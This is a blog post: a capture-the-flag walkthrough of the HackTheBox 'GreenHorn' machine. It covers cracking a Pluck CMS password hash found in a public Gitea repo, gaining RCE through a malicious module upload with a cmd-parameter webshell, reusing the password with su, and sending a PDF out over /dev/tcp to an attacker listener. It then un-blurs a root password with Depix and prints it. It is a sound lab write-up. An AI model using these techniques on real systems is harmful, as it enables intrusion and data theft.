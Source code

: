 ```yaml
---
layout: post
title: "Greenhorn"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox, Web, Linux]
tags: [HTB, Writeup, Security, web, linux, PHP, CMS]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap 

```bash
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722002947.png)

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003219.png)



on the port 3000 , we got gitea , with a public repos contains the source code of `pluck cms`
on the other port we found the `pluck cms`

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722003527.png)

from the fisrt look , I assume that this websites is the same one as the one in the `gitea repo`

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```php
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the `data/settings/pass.php`
```php
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  `login.php` file 

then the cms generate a hash based on the user input and stored it in  `$pass`
```php
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the `$ww (hash returned from pass.php)` with the `$pass`
to confirm that the password is correct
```php

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.`php` we will get access to the `cms`  , since the  hash is `SHA5` , I will try to crack it using [crackstation](https://crackstation.net/)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722011750.png)
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012056.png)

the CMS is on version `4.7.18`` , I quick google search lead me to [this exploit] (https://www.exploit-db.com/exploits/51592)

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files `poc.php,rce.php`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722012944.png)
```bash
zip rce.zip poc.php rce.php
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013106.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013302.png)

http://greenhorn.htb/data/modules/rce/poc.php
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013344.png)

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722013526.png)

let's get rev shell now
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014725.png)

![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014758.png)

we have 3 users on this machines
```bash
cat  /etc/passwd | grep sh$
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722014835.png)

I tried to reuse the password of the website , against users and I am `junior` now!!
```bash
su junior
```

there's a pdf on `junior's home`
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015126.png)

let's transfer it to our machine  to check it 
```bash
# on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
# on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015319.png)

there's a hidden password in this pdf , we need to unblur it!!
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722015603.png)

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  `Depix tool` to generate un-blurred  image
```bash
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![root.png](/assets/img/posts/GreenHorn/root.png){:normal}

```
sidefromsidetheothersidesidefromsidetheotherside
```
![/home/user/myblog/_site](/assets/img/posts/GreenHorn/Pasted image 20240722020616.png)

